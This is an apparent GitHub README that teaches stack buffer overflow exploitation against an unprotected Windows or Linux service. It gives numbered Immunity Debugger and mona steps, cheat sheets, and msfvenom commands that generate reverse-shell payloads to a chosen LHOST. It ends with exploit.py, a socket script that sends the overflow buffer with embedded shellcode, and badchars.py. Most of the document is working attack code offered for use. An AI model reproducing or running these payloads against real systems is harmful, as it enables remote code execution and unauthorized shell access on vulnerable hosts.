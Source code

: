 # Very basic version (no ASLR no DEP)

<br>

__Immunity Debugger__ :  https://debugger.immunityinc.com/ID_register.py
<br>
__Mona__ : https://github.com/corelan/mona/archive/refs/heads/master.zip
<br>
<sub>mona directory has to be with all the the other python scripts</sub>
<br>
<br>
<br>
<br>
__Order to proceed__ :
<br>
```
INTRO - in Immunity : !mona config -set workingfolder c:\<choose>\%p

1 - Find how many bytes to crash the app
2 - Generate cycle chars => /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes2crash> 
                      or => msf-pattern_create -l <bytes2crash>
3 - Find EIP address
4 - Find offset => /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_address> -l <bytes2crash>
5 - Modify exploit.py
6 - Test previous result with "BBBB" to check if EIP take the good ASCII value (42424242 = BBBB)
7 - Generate badchars (CF badchars.py)
8 - Generate same but in Immunity : !mona bytarray -cpb "\x00"
9 - Copy the output of step 7 in exploit.py and send
10 - Immunity : !mona compare -f c:\<your_folder>\<your_app_name>\bytearray.bin -a <ESP_address>
11 - Remove badchars (1 by 1) resend & recheck until "unmodified" : !mona bytearray -cpb "\x00\x..\x.." and so on
12 - Once everything if ok, find esp jmp address : !mona jmp -r esp
     and write it in exploit.py (Little Endian)
```
![image](https://user-images.githubusercontent.com/97956863/201435014-512d7c22-d8c3-40d1-bef8-fb77a5bfaba7.png)

```
13 - Craft payload :
          msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b "\x00\x...." -f py
                           /x64/
          msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x...." -f py          
14 - Copy output to exploit.py
15 - Send & Enjoy
```


## mona short CheatSheet

```
!mona config -set workingfolder c:\<folder>\%p
!mona bytearray -cpb "\x00"
!mona compare -f c:\<folder>\<app_name>\bytearray.bin
!mona jmp -r esp 
```

## msfvenom short CheatSheet

```
cycl    : /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes2crash> | or | msf-pattern_create -l <bytes2crash>
offset  : /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_address> -l <bytes2crash>
payload : msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b "\x00\x...." -f py
                           /x64/
          msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x...." -f py 
```

## exploit.py

```
#!/usr/bin/env python2

import socket, sys

ip = sys.argv[1]

port = 9999

offset = ""
esp = "" #little endian here
nop = "\x90" * 20

buf =  b"" #crafted payload here 
buf += b"\xdb\xcd\xd9\x74\x24\xf4\xbb\x67\x65\x06\x7c\x5d"
buf += b"\x33\xc9\xb1\x12\x31\x5d\x17\x03\x5d\x17\x83\x8a"
buf += b"\x99\xe4\x89\x65\xb9\x1e\x92\xd6\x7e\xb2\x3f\xda"
buf += b"\x09\xd5\x70\xbc\xc4\x96\xe2\x19\x67\xa9\xc9\x19"
buf += b"\xce\xaf\x28\x71\xdb\x44\xcc\xe3\xb3\x58\xd2\xf2"
buf += b"\x1f\xd4\x33\x44\xf9\xb6\xe2\xf7\xb5\x34\x8c\x16"
buf += b"\x74\xba\xdc\xb0\xe9\x94\x93\x28\x9e\xc5\x7c\xca"
buf += b"\x37\x93\x60\x58\x9b\x2a\x87\xec\x10\xe0\xc8"

msg = "A" * offset
msg += esp
msg += nop
msg += buf


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try :

        s.connect((ip, port))
        print "[+] Connected.\nSending buffer...."
        s.send(bytes(msg + "\r\n"))
        print "Done."

except Exception as e :
        print e

```

## badchars.py

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
